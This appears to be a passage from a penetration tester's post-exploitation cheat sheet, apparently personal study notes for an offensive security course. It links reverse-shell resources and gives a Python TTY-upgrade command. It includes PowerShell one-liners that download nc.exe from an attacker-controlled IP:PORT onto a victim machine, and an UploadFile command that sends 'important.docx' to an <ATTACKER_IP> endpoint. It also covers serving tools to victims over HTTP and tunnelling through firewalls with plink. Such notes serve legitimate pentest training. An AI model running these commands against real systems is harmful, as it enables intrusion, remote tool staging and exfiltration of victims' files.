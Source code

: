* Useful!
    ```
    https://www.revshells.com/
    ```

* Reference: 
    ```
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
    ```


## After first shell

* Getting TTY (almost always work on Linux):

    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

* Powershell:

    * Download files:

        ```
        powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://IP:PORT/nc.exe','C:\Full\path\nc.exe')
        ```

        or

        ```
        (New-Object Net.WebClient).DownloadFile('http://IP:PORT/nc.exe','C:\Full\path\nc.exe')
        ```

    * Upload files:

        Page 486-487. **You prepared the environment already** (see /var/www/ folder):
    
        ```
        powershell (New-Object System.Net.WebClient).UploadFile('http://<ATTACKER_IP>/upload.php', 'important.docx')
        ```

* Simple HTTP Server to dowload scripts and tools to the victim (example):

    ```
    python3.8 -m http.server 8081
    ```


* SSH Tunnel on Windows (need to upload plink to the victim):

    **Useful when some service is running only on localhost or is blocked by some firewall.**

    * Always download the last version:

        https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
    